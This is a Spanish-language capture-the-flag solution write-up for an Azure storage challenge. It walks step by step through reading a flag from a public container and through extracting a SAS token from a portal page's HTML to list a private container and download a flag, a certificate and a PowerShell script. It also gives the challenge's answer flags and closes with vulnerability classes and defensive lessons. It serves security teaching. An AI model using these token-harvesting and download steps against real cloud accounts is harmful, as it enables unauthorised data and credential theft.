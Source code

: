 # Challenge 01 - Azure Combined Storage & Identity Solution

## Descripción del Challenge

Este challenge combinado presenta **dos vectores de ataque** diferentes:

1. **Vector Básico**: Acceso directo a storage público → Flag: `CLD[b8c4d0f3-5g9e-5b2c-ad4f-8g3b6e9c7f5d]`
2. **Vector Avanzado**: Portal MediCloudX con SAS tokens → Flag: `CTF{m3d1cl0udx_4zur3_st0r4g3_s4s_t0k3n_3xf1ltr4t10n}`

---

## 🎯 Vector 1: Acceso Directo (Básico)

### Información Disponible
Con base en los outputs de Terraform:
```bash
azure_storage_website_endpoint = "https://ctf25sa[suffix].z13.web.core.windows.net/"
azure_flag_url = "https://ctf25sa[suffix].z13.web.core.windows.net/flag.txt"
```

### Solución Paso a Paso

**Paso 1: Acceder directamente a la flag**
```bash
# Método más simple - acceso web directo
curl https://ctf25sa[suffix].z13.web.core.windows.net/flag.txt
```

**Resultado esperado:**
```
CLD[b8c4d0f3-5g9e-5b2c-ad4f-8g3b6e9c7f5d]
```

---

## 🔬 Vector 2: MediCloudX Research Portal (Avanzado)

### Información Disponible
```bash
research_portal_url = "https://ctf25sa[suffix].blob.core.windows.net/research-portal/research-portal.html"
```

### Solución Paso a Paso

**Paso 1: Acceder al Portal de Investigación**
```bash
# Abrir el portal MediCloudX en el navegador
open https://ctf25sa[suffix].blob.core.windows.net/research-portal/research-portal.html
```

**Paso 2: Inspeccionar el Código Fuente**
```bash
# Descargar y examinar el HTML
curl https://ctf25sa[suffix].blob.core.windows.net/research-portal/research-portal.html > research-portal.html

# Buscar tokens SAS embebidos
grep -i "sas" research-portal.html
grep -i "token" research-portal.html
```

**Paso 3: Extraer el SAS Token**
En el código fuente, encontrarás una imagen con URL similar a:
```html
<img src="https://ctf25sa[suffix].blob.core.windows.net/medicloud-research/close-up-doctor-holding-red-heart.jpg?sv=2022-11-02&ss=b&srt=co&sp=rl&se=2026-12-31T23:59:59Z&st=2024-01-01T00:00:00Z&spr=https&sig=[SIGNATURE]" />
```

**Paso 4: Usar el SAS Token para Acceder al Container Privado**
```bash
# Extraer el SAS token de la URL de la imagen
SAS_TOKEN="sv=2022-11-02&ss=b&srt=co&sp=rl&se=2026-12-31T23:59:59Z&st=2024-01-01T00:00:00Z&spr=https&sig=[SIGNATURE]"

# Listar archivos en el container privado
curl "https://ctf25sa[suffix].blob.core.windows.net/medicloud-research?restype=container&comp=list&${SAS_TOKEN}"
```

**Paso 5: Descargar Archivos Sensibles**
```bash
# Descargar la flag del container privado
curl "https://ctf25sa[suffix].blob.core.windows.net/medicloud-research/flag.txt?${SAS_TOKEN}"

# Descargar el certificado base64
curl "https://ctf25sa[suffix].blob.core.windows.net/medicloud-research/certificadob64delpfx.txt?${SAS_TOKEN}" > cert.b64

# Descargar el script PowerShell
curl "https://ctf25sa[suffix].blob.core.windows.net/medicloud-research/script.ps1?${SAS_TOKEN}" > script.ps1
```

**Paso 6: (Opcional) Usar el Certificado para Azure AD**
```bash
# Decodificar el certificado
base64 -d cert.b64 > medicloud_cert.pfx

# Ejecutar el script PowerShell (si tienes PowerShell)
pwsh script.ps1
```

**Resultado esperado:**
```
CTF{m3d1cl0udx_4zur3_st0r4g3_s4s_t0k3n_3xf1ltr4t10n}
```

---

## 📋 Resumen de Vulnerabilidades

### Vector 1 (Básico)
- **CWE-200**: Exposición de información sensible
- **Misconfiguration**: Container público sin restricciones

### Vector 2 (Avanzado)  
- **CWE-200**: SAS token expuesto en código cliente
- **CWE-732**: Permisos excesivos en SAS token
- **CWE-522**: Certificado almacenado en ubicación accesible
- **CWE-521**: Contraseña débil de certificado

---

## 🎯 Puntos de Aprendizaje

1. **Inspección de código fuente**: Siempre revisar HTML/JS por credenciales embebidas
2. **SAS Tokens**: Tokens con permisos excesivos y larga expiración son peligrosos
3. **Escalación de privilegios**: Un token de lectura puede llevar a acceso completo
4. **Certificados en storage**: Nunca almacenar certificados en ubicaciones accesibles
5. **Defensa en profundidad**: Un solo punto de falla puede comprometer todo el sistema
